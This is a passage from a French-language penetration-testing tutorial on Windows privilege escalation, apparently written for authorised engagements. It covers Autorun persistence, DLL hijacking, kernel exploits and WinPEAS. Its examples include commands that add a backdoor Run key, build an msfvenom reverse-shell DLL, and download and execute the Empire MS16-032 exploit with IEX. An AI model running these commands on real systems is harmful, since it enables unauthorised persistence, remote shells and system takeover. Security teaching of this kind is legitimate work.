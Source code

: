 ##### Autorun

Les clés Autorun peuvent être exploitées si elles sont modifiables :

```powershell
# Vérifier les clés Autorun
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Ajouter une clé malveillante
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\Temp\backdoor.exe" /f
```

#### Détournement de DLL (DLL Hijacking)

Le détournement de DLL exploite la façon dont Windows recherche les DLL :

```powershell
# Identifier les DLL manquantes avec Process Monitor
# Créer une DLL malveillante
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll -o evil.dll

# Placer la DLL dans le répertoire de l'application ou dans le PATH
copy evil.dll C:\Vulnerable\Application\missing.dll
```

#### Exploits du noyau Windows

Les exploits de noyau peuvent être utilisés en dernier recours :

```powershell
# MS16-032 (Secondary Logon Handle)
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1'); Invoke-MS16032"
```

**⚖️ Rappel ROE** : Les exploits de noyau peuvent causer des instabilités système ou des crashs. Utilisez-les uniquement lorsque c'est explicitement autorisé dans le cadre de votre engagement.

### 3.3 Outils d'automatisation

Plusieurs outils automatisent le processus d'énumération et suggèrent des vecteurs d'escalade de privilèges :

#### WinPEAS

WinPEAS est un script complet qui recherche les chemins d'escalade de privilèges potentiels :

```powershell
# Téléchargement et exécution de WinPEAS
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -O winpeas.exe
.\winpeas.exe
```

WinPEAS effectue une analyse approfondie du système et met en évidence les vulnérabilités potentielles avec un code couleur.

